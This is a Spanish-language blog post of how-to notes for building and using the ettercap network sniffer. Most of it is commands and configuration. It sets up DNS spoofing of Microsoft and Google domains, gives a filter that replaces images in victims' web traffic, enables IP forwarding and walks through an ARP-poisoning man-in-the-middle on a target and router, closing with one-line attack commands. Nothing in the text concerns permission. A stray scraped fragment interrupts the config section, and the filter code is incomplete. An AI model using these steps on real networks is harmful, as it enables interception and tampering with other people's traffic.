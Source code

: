 ```yaml
---
layout: post
title: "ettercap"
date: 2013-12-15 16:10
comments: true
categories: 
---
```

[Dependencias: libcap2 libnet1 zlib1g libpthread-stubs0 libpcre3-dev libpcap-dev libcap-dev libnet6-1.3-0 libnet1-dev libssl-dev ncurses-bin libncurses5-dev libsdl-pango1 libatk1.0-dev]

Snifador de red. Muestra pantallas solicitando aceptación de certificado en los navegadores de las victimas. 

descargar de http://ettercap.sourceforge.net/ y descomprimir 

>$ wget http://prdownloads.sourceforge.net/ettercap/ettercap-NG-0.7.3.tar.gz?download

>$ wget http://sourceforge.net/projects/ettercap/files/ettercap/NG-0.7.3/ettercap-NG-0.7.3.tar.gz/download

>$ tar -zvxf paquete

>$ cd ettercap-NG-0.7.3 

	$ ./configure 

	$ make 

	# make install 

>$ ettercap -P list   (visualizar plugins instalados)

modificar archivo de configuración: 

>\# nano /etc/etter.conf

descomentar la linea:himne20-01-13 19:37Menos información

>\# if you use iptables: 

redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp --dport %port -j REDIRECT --to-port %rport" 

Y modificar:

>\# the command used by the remote_browser plugin 

remote_browser = "firefox -remote openurl(http://%host%url)"

Para usar el plugin dns_spoof (Redireccionar páginas a otros sitios)

>\# nano /usr/share/ettercap/etter.dns 

>\# 3  Modos de especificar la redirección a localhost 

	microsoft.com          A       192.168.1.2 

	*.microsoft.com        A       192.168.1.2 

	*google*               A       192.168.1.2

Para la sustitución de imagenes:

>\# touch test2filter 

Pegar: 

	if (ip.proto == TCP && tcp.src == 80) { 

	replace("img src=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" "); 

	replace("IMG SRC=", "img src=\"http://www.irongeek.com/images/jollypwn.png\" "); 

	msg("Filter ok.\n");

Configurar el sistema para que acepte todos los paquetes que detecte. Si al lanzar: 

>\# cat /proc/sys/net/ipv4/ip_forward 

Si la respuesta no es 1, lanzar: 

>\# echo 1 > /proc/sys/net/ipv4/ip_forward 

Arrancar la aplicación en ncurses [en terminal -> ettercap -T , en modo gtk -> ettercap -G y en modo demonio -> ettercap -D . En este último caso el análisis se realiza en los archivos de log]: 

>\# ettercap -C 

Clicar en: 

	Sniff -> Unifield sniffing 

Y aceptar [o poner] la red [eth0]. En la nueva pantalla, clic en: 

	Host -> Scan for host 

Para escanear la red. Para visionar las máquina activas obtenidas, clic en: 

	Hosts -> Hosts List 

Bajar con el cursor hasta la IP del router y pulsar la tecla "1". Luego nos situamos sobre la IP del objetivo y pulsar la tecla "2" con lo que colocamos nuestra máquina entre el router y la máquina objetivo (envenenamiento arp). Luego en el cuadro que se abre con: 

	Mitm -> Arp poisoning 

Parameters, ponemos: 

	remote

Y arrancamos el sniffer: 

	Start -> Start sniffing 

	Para observar las conexiones que realiza la máquina objetivo: 

	View -> Connections 

	Para terminar el ataque: 

	Mitm -> Stop mitm atack 

	Start -> Stop Sniffing 

	Start -> Exit

Forma abreviada:

	# ettercap -Tq -M arp:remote -i eth0 ip_victima ip_router 

	O solo especificando la del router si se ataca toda la red: 

>\# ettercap -Tq -M arp:remote -i eth0 ip_router

